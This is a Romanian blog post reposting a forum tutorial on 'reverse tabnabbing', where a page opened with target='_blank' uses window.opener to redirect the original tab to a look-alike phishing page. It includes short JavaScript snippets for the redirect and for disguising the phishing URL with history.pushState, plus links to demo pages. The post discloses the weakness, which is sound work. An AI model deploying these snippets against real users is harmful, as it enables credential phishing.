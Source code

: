 ```yaml
---
id: 51
title: 'Phishing via target=&#8221;_blank&#8221;'
date: 2013-01-06T20:23:49+00:00
author: Silviu Stroe
layout: post
guid: http://silviu-s.com/?p=51
permalink: /phishing-via-target_blank/
dpsp_networks_shares:
  - 'a:0:{}'
tags:
  - blank
  - metoda
  - pishing
  - target
---
```

Rasfoind astazi forumul RSTCenter.com, am vazut ca acest utilizator a &#8220;reinventat roata&#8221; intr-un mod foarte ingenios. Va prezint in continuare postarea lui de pe forum:

Autor: <a id="yui-gen21" title="B7ackAnge7z is online now" href="https://rstforums.com/forum/members/b7ackange7z/" rel="nofollow"><strong>B7ackAnge7z</strong></a>

Sper să nu greșesc dacă voi spune, că știm cu toții ce e un link și la ce folosește atributul target pentru tag-ul <a>. Și dat fiind faptul că majoritatea consideră inofensivă folosirea acestei tehnici atât de populare, în acest tutorial voi încerca să demonstrez contrariul.

Pentru început vreau să menționez că ceea ce va fi descris aici, personal o consider a fiind o vulnerabilitate pentru toate browserele cu excepția&#8230; _ta-da!_ — Internet Explorer. Iată de ce în continuare voi folosi cuvântul „vulnerabilitate” atunci când mă voi referi la acest „fenomen”.

De asemenea, vă rog să atrageți atenția că această vulnerabilitate v-a funcționa perfect <span style="text-decoration: underline;">doar dacă</span>se va apăsa click de stânga pe link, și nu click de dreapta → „Deschide în filă nouă”.

Și, nu în ultimul rând, așa cum toată lumea recomandă să fie folosit target=&#8221;_blank&#8221; pentru toate link-urile externe (doar nu dorim ca utilizatorul să părăsească pagina noastră), trebuie să constat că această vulnerabilitate afectează majoritatea site-urilor care fac referire la pagini externe.

<span style="font-size: large;"><b>Teorie</b></span>
  
Dacă avem pagina curentă „A” și facem referire la pagina „B” folosind atributul target=&#8221;_blank&#8221;, atunci când se va deschide pagina „B” pentru aceasta va fi creat un obiect window.opener cu ajutorului căruia putem redirecționa pagina „A” către o nouă pagină în timp ce utilizatorul accesează pagina „B”. Și cel mai important, paginile „A” și „B” pot fi pe domenii diferite.

<span style="font-size: large;"><b>Practică</b></span>
  
Pentru a înțelege mai bine despre ce merge vorba, vă recomand următorul exemplu: apăsați <a href="http://black.securrity.com/t_blank/rst-poc/" target="_blank" rel="nofollow">click aici</a>, așteptați să se încarce pagina, după care reveniți înapoi. Dacă apare eroarea „_window.opener is null_” atunci:

  1. Ai deschis link-ul altfel decât folosind click de stânga;
  2. Browserul tău nu e vulnerabil;
  3. Magie neagră?

Pentru un exemplu mai complex, vă rog să accesați <a href="http://white.securrity.com/t_blank/" target="_blank" rel="nofollow">această pagină</a> unde am folosit această vulnerabilitate pentru a simula un atac de tip phishing asupra unui site ce oferă servicii de email. Ca și pentru oricare site asemănător (Gmail, Hotmail ș.a.) fiecare link primit într-un mesaj are atributultarget=&#8221;_blank&#8221;.

<span style="font-size: large;"><b>Explicații</b></span>
  
Pentru a exploata vulnerabilitatea, trimitem un mesaj ce conține adresa URL către pagina „capcană”, unde pentru a fi siguri că utilizatorul a deschis link-ul, folosind click de stânga și nu altă metodă, verificăm dacă există obiectul window.opener și nu este NULL. După care, putem redirecționa pagina de unde a venit utilizatorul. Codul arată cam așa:

<div>
  <div>
    Code:
  </div>
  
  <pre>if (window.opener) {
   window.opener.location.replace('full-url-to-scam-page');
}</pre>
</div>

După cum puteți observa, totul e atât de simplu, atât de banal, atât de periculos&#8230; Dacă pagina de phishing și cea legitimă arată ca 2 picături de apă, iar numele domeniului nu dă de bănuit, când utilizatorul va reveni la pagina inițială cu siguranță, nu va observa modificarea.

Pentru a da mai puțin de bănuit, poate fi modificată adresa URL pentru pagina de phishing în felul următor:

  * De pe pagina **funny.php** e nevoie să trimitem adresa URL (referrer) de unde a venit utilizatorul. Eu am făcut așa: <div>
      <div>
        Code:
      </div>
      
      <pre>var referrer = encodeURIComponent(document.referrer);
window.opener.location = 'http://black.securrity.com/t_blank/scam.php#' + referrer;</pre>
    </div>

  * Apoi, pe pagina **scam.php** am folosit următorul cod: <div>
      <div>
        Code:
      </div>
      
      <pre>// Extragem legătura adresei URL și eliminăm numele domeniului
var fakeurl = decodeURIComponent(window.location.hash).replace('#http://white.securrity.com', '');

// Modificăm adresa URL fără a încărca conținutul acelei pagini
window.history.pushState(false, false, fake_url);</pre>
    </div>

<span style="font-size: large;"><b>În loc de concluzii</b></span>
  
Sincer, nu înțeleg, ce a fost în capul dezvoltatorilor ca să permită executarea funcțieilocation.replace() sau modificarea obiectului location dintre două domenii diferite? Dacă era de pe același domeniu, înțelegeam&#8230; Și chiar e foarte straniu, căci celelalte funcții și atribute ale obiectului window.opener nu pot nici măcar citite, deoarece:

<div>
  <div>
    <div>
      <div>
      </div>
      
      <div>
        <img title="Quote" alt="Quote" src="https://rstforums.com/forum/elitex360/misc/quote_icon.png" /> Originally Posted by <strong>Firefox</strong>
      </div>
      
      <div>
        Error: Permission denied to access property &#8216;bla-bla-bla&#8217;
      </div>
    </div>
  </div>
</div>

Sursa: https://rstforums.com/forum/63056-phishing-via-target-_blank.rst